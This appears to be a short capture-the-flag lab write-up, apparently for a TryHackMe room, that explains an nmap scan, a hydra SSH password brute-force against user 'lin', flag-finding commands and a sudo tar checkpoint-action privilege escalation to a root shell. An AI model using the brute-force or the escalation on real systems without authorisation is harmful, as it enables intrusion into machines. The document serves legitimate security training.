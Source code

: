# Dissecting Some Commands
`nmap -sC -sV {TARGET-IP} > {FILENAME1}.txt`
+ `-sC` enables the use of default scripts during the scan, which runs a set of commonly used scripts against the target IP to try to find any vulnerabilities
+ `-sV` enables version detection, which attempts to determine the sevice and version information of the open ports
+ `> {FILENAME1}.txt` redirects the results into a text file



`hydra -l lin -P {FILE1}.txt ssh://{TARGET IP}`
+ `-l lin` specifies that "**lin**" is the username to be used during the attack
+ `-P {FILE1}.txt` specifies the file containing the list of passwords to be used for the brute-force attack
+ `ssh://{TARGET IP}` specifies the SSH server that we want to attack


`find / -type f -name user.txt 2>/dev/null`
+ `/` specifies the starting directory to be the root directory
+ `-type f` specifies that it should only search for regular files
+ `-name user.txt` specifies to search for a file called user.txt
+ `2>/dev/null` redirects error output (stderr) to the null device ensuring that any error message encountered during the search are suppressed and not displayed on the terminal


`sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh`
+ `-cf /dev/null /dev/null` creates an archive file called **/dev/null** that contains the **/dev/null** file itself, which results in an archive file that won't contain any data since the **/dev/null** file is a special file that discards any data that gets written to it
+ `--checkpoint=1` specifies that a checkpoint message after processing every file
+ `--checkpoint-action=exec=/bin/sh` specifies that the **/bin/sh** command should be executed when a checkpoint message is printed


`find / -type f -name root.txt 2>/dev/null`
+ `/` specifies the starting directory to be the root directory
+ `-type f` specifies that it should only search for regular files
+ `-name root.txt` specifies to search for a file called root.txt
+ `2>/dev/null` redirects error output (stderr) to the null device ensuring that any error message encountered during the search are suppressed and not displayed on the terminal


# Contributions
This writeup was made by Jonmar Corpuz, founder of **KnowCybersecurity** (www.knowwwcybersecurity.com)


Socials:
* TryHackMe ID: https://tryhackme.com/p/mtlfriends
* LinkedIn: https://www.linkedin.com/in/jonmar-corpuz-12771a234/



